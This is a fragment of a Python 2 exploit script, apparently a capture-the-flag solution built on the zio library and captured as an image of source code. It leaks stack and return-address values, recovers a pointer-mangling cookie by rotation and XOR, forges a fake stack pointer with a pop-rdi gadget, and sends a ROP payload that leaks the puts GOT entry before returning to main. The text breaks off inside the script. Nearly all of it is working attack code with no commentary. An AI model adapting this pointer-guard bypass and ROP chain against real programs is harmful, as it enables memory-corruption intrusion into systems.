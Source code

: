 ```
    io.read_until('name:')
    r12 = l64(io.read_until(',')[:-1].ljust(8, 'x00'))
    print 'r12', hex(r12)
    io.read_until('addr:')
    enc_rsp = l64(io.read(8))
    enc_rip = l64(io.read_until(',')[:-1].ljust(8, 'x00'))
 
    base = r12 - 0xaa0
    print 'enc_rsp', hex(enc_rsp)
    print 'enc_rip', hex(enc_rip)
 
    real_rip = base + 0x1495
    cookie = rerol(enc_rip)^real_rip
 
    print 'cookie', hex(cookie)
 
    real_rsp = rerol(enc_rsp)^cookie
    print 'real_rsp', hex(real_rsp)
 
    return (base, real_rsp, cookie)
 
def edit(io, id, age, name, addr, introduce):
    io.read_until('&gt;&gt;')
    io.writeline('3')
    io.read_until(':')
    io.writeline(str(id))
    io.read_until(':')
    io.writeline(name)
    io.read_until(':')
    io.writeline(str(age))
    io.read_until(':')
    io.writeline(addr)
    io.read_until(':')
    io.writeline(introduce)
 
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW, 'green'))
 
    io.read_until(':')
    io.writeline(str(92233720368547759))
    base, rsp, cookie = show(io, 1)
    print 'base', hex(base)
 
    fake_rsp = rsp - 0x48
    pop_rdi_ret = base + 0x000000000001523
 
    addr = l64(rol(fake_rsp^cookie))+l64(rol(pop_rdi_ret^cookie))
    print HEX(addr)
    edit(io, 1, 0, "", addr, "")
 
    io.read_until('&gt;&gt;')
    payload = '5;'+'a'*6
 
    puts_got = 0x0000000000202018+ base
    puts_plt = 0x9a0 + base
    main = base + 0x00000000000013ff
    payload += l64(puts_got)+l64(puts_plt)+l64(main)
    io.writeline(payload)
 
    puts_addr = l64(io.readline()[:-1].ljust(8, 'x00'))
    '''
```